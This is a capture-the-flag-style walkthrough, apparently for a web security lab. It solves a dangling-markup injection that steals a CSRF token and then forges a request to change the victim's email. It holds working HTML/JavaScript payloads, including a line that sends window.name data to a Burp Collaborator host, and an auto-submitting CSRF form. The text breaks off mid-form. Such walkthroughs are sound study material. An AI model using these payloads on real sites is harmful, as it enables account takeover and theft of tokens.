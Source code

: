```bash
Go to: "Exploit server"
Body:

<script>
if(window.name) {
new Image().src='//j6qoyty1gsrao8s8eg4fx0jrjipadz.burpcollaborator.net?'+encodeURIComponent(window.name);
} else {
location='https://acee1f281ede2acec045519100e30075.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-aca21f871e5d2aa8c09c51f701620024.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>

// or // decoded

<script>
if(window.name) {
new Image().src='//j6qoyty1gsrao8s8eg4fx0jrjipadz.burpcollaborator.net?'+encodeURIComponent(window.name);
} else {
location='https://acee1f281ede2acec045519100e30075.web-security-academy.net/my-account?email="><a href="https://exploit-aca21f871e5d2aa8c09c51f701620024.web-security-academy.net/exploit">Click me</a><base target='';
}
</script>

Click "Store"
Click "Deliver exploit to victim"
Go to Burp Collaborator client
Click "Poll now"
Go to: HTTP request -> Request to collaborator
Find the csrf token

KfUUOzT02VRirqDGLy0uSnVitAiY57w2

Go to:

https://acee1f281ede2acec045519100e30075.web-security-academy.net/my-account

Intercept is on
Email:

hacker@evil-user.net

Right-click -> Engagement tools -> Generate CSRF PoC -> Options -> Include auto-submit script
Change the current csrf value to:

KfUUOzT02VRirqDGLy0uSnVitAiY57w2

Click "Regenerate"
"Copy HTML"
Go to: Exploit server
Body:

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acee1f281ede2acec045519100e30075.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="KfUUOzT02VRirqDGLy0uSnVitAiY57w2" />
      <input type="submit" value="Submit request" />
```
